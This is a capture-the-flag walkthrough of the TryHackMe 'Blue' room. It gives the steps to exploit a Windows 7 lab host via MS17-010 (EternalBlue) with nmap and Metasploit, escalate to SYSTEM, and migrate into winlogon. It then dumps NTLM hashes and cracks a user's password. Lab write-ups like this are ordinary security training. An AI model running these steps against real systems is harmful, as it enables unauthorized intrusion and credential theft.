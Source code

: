 # Matheus Jesus 03-04-2020

## Try Hack Me - Blue (https://tryhackme.com/room/blue)

### IP 10.10.130.202

#### 1.Nmap

nmap -sC -sV -oN nmap_initial 10.10.130.202

##### Recommended: nmap -sV -vv --script vuln TARGET_IP

```text
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### 2. SMB* Scripts

nmap --script=smb* 10.10.130.202

locate .sne | grep smb

subl /usr/share/nmap/scripts/smb-vuln-regsvc-dos.nse

/usr/share/nmap/scripts/smb-vuln-ms17-010.nse

nmap --script=/usr/share/nmap/scripts/smb-vuln-ms17-010.nse

* Host script results:

```text
| smb-vuln-ms17-010:
|   VULNERABLE
```

#### 3. Metasploit

msfconsole
search ms17 -> exploit/windows/smb/ms17_010_eternalblue

set RHOST 10.10.130.202
show options
run

##### 3.1 Escalate -> Shell To Meterpreter

post/multi/manage/shell_to_meterpreter
set SESSION 1
exploit

on meterpreter, run getuid -> NT AUTHORITY\SYSTEM

ps

```text
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 444   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 560   548   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 608   548   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 616   600   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 656   600   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 704   608   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 712   608   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 720   608   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 752   1308  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe
 772   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 808   560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 828   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 844   560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 896   704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 944   704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1012  656   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 1072  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1152  704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1288  704   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1308  1828  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 1332  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1416  704   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1472  704   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1612  704   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1828  1860  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1912  704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1916  704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2060  704   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 2068  828   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2208  1288  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2216  828   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WmiPrvSE.exe
 2272  560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2416  704   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2584  704   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2952  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 3020  704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3068  704   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
```

migrate -N winlogon.exe (PI 656)

#### 4. Password Crack

On meterpreter

hashdump

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Access
https://crackstation.net/
ffb43f0de35be4d9917ac0cc8ad57f8d -> alqfna22

#### 5. Flags

* Flag1.txt on C: -> {access_the_machine}
* Flag2.txt on C:/Windows/System32/config
* Flag3.txt on C:/Users/Jon/Documents

DONE!
